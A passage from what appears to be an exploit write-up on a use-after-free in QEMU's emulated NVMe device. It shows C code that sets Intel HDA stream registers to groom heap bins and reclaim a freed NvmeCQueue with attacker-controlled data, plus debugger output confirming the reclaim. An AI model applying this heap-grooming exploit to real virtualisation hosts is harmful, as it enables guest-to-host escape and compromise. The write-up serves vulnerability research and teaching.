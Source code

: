 I set the tx data size to be just enough to write into the `ICH6_REG_SD_CTL` register of the last stream, which is 0x4174 [7]. I also set the `ICH6_REG_SD_LVI` of each stream to 7 before executing this to ensure that `intel_hda_parse_bdl()` will allocate a BDL buffer of size 0x80 [8]. The reason I allocate 0x80 instead of 0x70 is that the freed CQ used a 0x90 chunk.

```c
#define TX_CNT 8
int tx_size = 0x4074 + 0x20 * TX_CNT; // [7]

// [...]

int idx;
for (idx = 0; idx < TX_CNT - 2; idx++) {
    *(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPL) = 0;
    *(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPU) = 0;
    *(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_LVI) = 7; // [8]
}

*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPL) = virt_to_phys(bh);
*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPU) = 0;
*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_LVI) = 7; // [8]
idx++;

*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPL) = virt_to_phys(uaf_data); // [9]
*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_BDLPU) = 0;
*(unsigned int *)(hda + 0x80 + 0x20 * idx + ICH6_REG_SD_LVI) = 7; // [8]
```

The first 7 BDL buffers are used to drain the 0x90 tcache and unsorted bin, allowing us to allocate the freed CQ object in the last buffer allocation. Therefore, the `ICH6_REG_SD_BDLPL` of the last stream needs to point to the data written into the CQ object [9].

To construct a fake `NvmeCQueue`, I filled `uaf_data` with the character `'A'` [10] and set the CQID to expected value [11].

```c
int cqid = ((heap + 0x9076f0) >> 16) & 0xffff;
memset(uaf_data, 'A', 0x100); // [10]
*(unsigned long *)(uaf_data + 0xa) = cqid; // [11]
```

If successful, when `nvme_enqueue_req_completion()` is called, the target CQ object should look like this:

```
pwndbg> x/10gx cq
0x56501f4cdcf0: 0x4141414141414141      0x000000001fa74141
0x56501f4cdd00: 0x4141414141410000      0x4141414141414141
0x56501f4cdd10: 0x4141414141414141      0x4141414141414141
0x56501f4cdd20: 0x4141414141414141      0x4141414141414141
0x56501f4cdd30: 0x4141414141414141      0x4141414141414141
```

Wonderful! We’ve successfully reclaimed the freed CQ object with controllable data.


